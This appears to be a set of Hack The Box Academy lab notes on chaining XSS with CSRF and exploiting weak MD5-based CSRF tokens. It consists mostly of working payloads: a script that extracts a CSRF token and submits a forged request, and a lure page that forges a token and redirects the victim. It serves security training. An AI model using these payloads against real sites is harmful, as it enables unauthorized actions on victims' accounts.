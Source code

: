 ![image](https://academy.hackthebox.com/storage/modules/153/40.png)

# XSS & CSRF Chaining
```javascript
<script>
var req = new XMLHttpRequest();
req.onload = handleResponse;
req.open('get','/app/change-visibility',true);
req.send();
function handleResponse(d) {
    var token = this.responseText.match(/name="csrf" type="hidden" value="(\w+)"/)[1]; // check the vuln app source code
    var changeReq = new XMLHttpRequest();
    changeReq.open('post', '/app/change-visibility', true);
    changeReq.setRequestHeader('Content-Type', 'application/x-www-form-urlencoded');
    changeReq.send('csrf='+token+'&action=change');
};
</script>
```

# Exploiting Weak CSRF Tokens
```shell-session
alakin2504@htb[/htb]$ echo -n goldenpeacock467 | md5sum
0bef12f8998057a7656043b6d30c90a2  -
```

```html
<!DOCTYPE html>
<html lang="en">

<head>
    <meta charset="UTF-8">
    <meta http-equiv="X-UA-Compatible" content="IE=edge">
    <meta name="viewport" content="width=device-width, initial-scale=1.0">
    <meta name="referrer" content="never">
    <title>Proof-of-concept</title>
    <link rel="stylesheet" href="styles.css">
    <script src="./md5.min.js"></script>
</head>

<body>
    <h1> Click Start to win!</h1>
    <button class="button" onclick="trigger()">Start!</button>

    <script>
        let host = 'http://csrf.htb.net'

        function trigger(){
            // Creating/Refreshing the token in server side.
            window.open(`${host}/app/change-visibility`)
            window.setTimeout(startPoc, 2000)
        }

        function startPoc() {
            // Setting the username
            let hash = md5("crazygorilla983")

            window.location = `${host}/app/change-visibility/confirm?csrf=${hash}&action=change`
        }
    </script>
</body>
</html>
```